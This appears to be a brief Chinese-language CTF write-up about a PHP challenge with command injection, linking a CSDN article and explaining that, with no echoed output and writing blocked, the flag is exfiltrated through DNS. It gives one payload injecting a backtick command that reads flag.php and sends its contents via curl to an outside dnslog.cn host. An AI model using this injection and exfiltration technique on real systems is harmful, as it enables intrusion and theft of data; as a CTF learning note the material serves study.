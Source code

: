 # 知识点
[https://blog.csdn.net/qq_46091464/article/details/109095382](https://blog.csdn.net/qq_46091464/article/details/109095382)
# 思路
可以通过` `进行命令执行<br />但因为不会回显且写入权限被禁，所以可以通过访问dns服务器外带出flag
```python
?F=`$F`;%20curl%20`cat%20flag.php|grep%20%22flag%22`.vz6r2r.dnslog.cn
```
![image.png](./images/20231017_2349582082.png)

